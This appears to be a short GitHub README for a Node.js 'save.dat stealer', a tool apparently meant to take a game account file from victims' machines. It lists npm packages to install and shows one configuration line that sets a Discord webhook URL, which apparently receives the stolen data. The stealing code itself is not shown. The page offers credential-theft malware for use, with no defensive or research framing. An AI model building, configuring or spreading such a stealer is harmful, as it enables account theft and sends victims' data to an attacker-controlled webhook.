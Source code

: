 # Node-Save.dat-stealer
Super simple save.dat stealer written by node js

Installation
=======

- ```npm install username```
- ```npm install request```
- ```npm install discord-webhook-node```


editing webhook url
===============
```js
const client = new Webhook('your webhook url');//your webhook url
```
